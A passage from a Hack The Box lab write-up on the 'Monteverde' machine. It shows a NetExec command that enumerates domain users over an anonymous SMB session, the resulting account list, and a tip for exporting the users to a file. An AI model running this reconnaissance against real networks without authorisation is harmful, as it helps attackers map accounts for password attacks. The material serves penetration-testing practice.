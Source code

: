 I add this to my /etc/hosts file and move on.

Let me see if I can enumerate any users. This is always a good trick to try even if you don't have permissions to list the shares.

```bash
~/htb/boxes/OSCP-PREP/Monteverde ❯ nxc smb 10.129.228.111 -u '' -p ''  --users                          
SMB         10.129.228.111  445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False) 
SMB         10.129.228.111  445    MONTEVERDE       [+] MEGABANK.LOCAL\: 
SMB         10.129.228.111  445    MONTEVERDE       -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         10.129.228.111  445    MONTEVERDE       Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         10.129.228.111  445    MONTEVERDE       AAD_987d7f2f57d2              2020-01-02 22:53:24 0       Service account for the Synchronization Service with installation identifier 05c97990-7587-4a3d-b312-309adfc172d9 running on computer MONTEVERDE.
SMB         10.129.228.111  445    MONTEVERDE       mhope                         2020-01-02 23:40:05 0        
SMB         10.129.228.111  445    MONTEVERDE       SABatchJobs                   2020-01-03 12:48:46 0        
SMB         10.129.228.111  445    MONTEVERDE       svc-ata                       2020-01-03 12:58:31 0        
SMB         10.129.228.111  445    MONTEVERDE       svc-bexec                     2020-01-03 12:59:55 0        
SMB         10.129.228.111  445    MONTEVERDE       svc-netapp                    2020-01-03 13:01:42 0        
SMB         10.129.228.111  445    MONTEVERDE       dgalanos                      2020-01-03 13:06:10 0        
SMB         10.129.228.111  445    MONTEVERDE       roleary                       2020-01-03 13:08:05 0        
SMB         10.129.228.111  445    MONTEVERDE       smorgan                       2020-01-03 13:09:21 0        
SMB         10.129.228.111  445    MONTEVERDE       [*] Enumerated 10 local users: MEGABANK
```
![List of users I got from nxc](/imgs/assets-monteverde/MONTEVERDE_USERS_ENUM.png "List of users I got from nxc")

##### Hint

Rather than using cut or awk to extract the output from nxc, you can use the built in flag `--users-export FILENAME` to export all of the users nxc finds to a filename. So the command would be something like this `nxc smb 10.129.228.111 -u '' -p ''  --users --users-export users`
